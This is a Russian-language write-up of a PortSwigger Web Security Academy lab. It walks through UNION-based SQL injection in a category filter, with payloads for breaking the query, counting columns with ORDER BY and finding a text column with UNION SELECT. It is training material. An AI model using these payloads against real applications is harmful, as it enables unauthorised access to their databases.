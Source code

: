 ```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sql, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text)


## Scope
```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Нужно найти столбец, в котором используются строки.


## Solution

Из задания известно, что **sqli** находится в фильтре категории, поэтому возьму `URL` и буду работать с ним:

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти обрамление параметра. Предположу, что запрос в БД выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Поверю это, передав следующий пейлоад:

```
Accessories' and false-- -
```

Товары не отобразились, значит я нашел обрамление. 

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/1.png){: height="200" .align-center}

Далее найду количество колонок с помощью `ORDER BY`:

```
Accessories' ORDER BY 4-- -ошибка
Accessories' ORDER BY 3-- -ОК
```

Значит в БД 3 колонки. Подставлю `UNION`, чтобы вывести данные на страницу:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -ОК
```

Подставлю свои данные вместо `NULL`:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -
```

Только сейчас заметил, что нужно вывести определенную строку) Ну ок.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/2.png){: height="200" .align-center}


```
Accessories' UNION SELECT 'xCxqZ9', NULL, NULL-- -ошибка
Accessories' UNION SELECT NULL, 'xCxqZ9', NULL-- -ОК
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/3.png){: height="200" .align-center}

Лаба решена:3
